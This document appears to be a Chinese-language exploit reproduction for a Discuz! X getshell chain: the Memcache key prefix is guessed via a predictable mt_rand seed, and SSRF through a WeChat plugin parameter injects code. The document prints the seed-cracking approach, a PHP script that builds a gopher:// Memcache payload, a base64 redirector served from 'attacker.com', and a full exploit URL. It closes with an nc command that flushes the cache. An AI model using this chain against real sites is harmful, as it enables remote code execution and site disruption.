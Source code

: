 Discuz! X authkey+Memcache+ssrf getshell
========================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](./resource/Discuz!Xauthkey+Memcache+ssrfgetshell/media/rId24.jpg)

Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF
要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php` 345-357行：

            $uid = DZUCFULL ? 1 : $adminuser['uid'];
            $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
            $_config['db'][1]['dbhost'] = $dbhost;
            $_config['db'][1]['dbname'] = $dbname;
            $_config['db'][1]['dbpw'] = $dbpw;
            $_config['db'][1]['dbuser'] = $dbuser;
            $_config['db'][1]['tablepre'] = $tablepre;
            $_config['admincp']['founder'] = (string)$uid;
            $_config['security']['authkey'] = $authkey;
            $_config['cookie']['cookiepre'] = random(4).'_';
            $_config['memory']['prefix'] = random(6).'_';

            save_config_file(ROOT_PATH.CONFIG, $_config, $default_config);

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie
前缀以及缓存键名前缀，其中用到了`random`函数生成随机字符串。所以跟进这个`random`：

    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }

可以发现，如果 PHP 版本大于 4.2.0，那么 `mt_rand`
随机数的种子是不变的。也就是说，生成 authkey、Cookie
前缀以及缓存键名前缀时调用的 `mt_rand` 用的都是同一个种子，而 Cookie
前缀是已知的，通过观察 HTTP
请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用
[php\_mt\_seed](https://link.zhihu.com/?target=http%3A//www.openwall.com/php_mt_seed/README)
进行种子爆破。

通过 `mt_rand` 种子的猜解，缓存键名前缀的可能性从 62\^6 缩小到不到 1000
个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造
SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache
缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来
getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，`output_replace`
函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的
payload。写这样一段代码（先假设缓存键名前缀是 `IwRW7l`）:

    <?php

    $_G['setting']['output']['preg']['search']['plugins'] = '/.*/';
    $_G['setting']['output']['preg']['replace']['plugins'] = 'phpinfo()';
    $_G['setting']['rewritestatus'] = 1;

    $memcache = new Memcache;
    $memcache->connect('localhost', 11211) or die ("Could not connect");
    $memcache->set('IwRW7l_setting', $_G['setting']);

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：

    gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D

但是直接用它去 SSRF
是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

image

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：

    <?php

    $url = base64_decode($_REQUEST['url']);
    header( "Location: " . $url );

这样就可以将 SSRF URL 进行 base64 编码从而规避`_xss_check`的检测。

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![](./resource/Discuz!Xauthkey+Memcache+ssrfgetshell/media/rId26.png)

由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次
getshell 后执行以下命令，网站就可以恢复正常：

    echo -e 'flush_all' | nc localhost 11211

参考链接
--------

> https://zhuanlan.zhihu.com/p/51907363
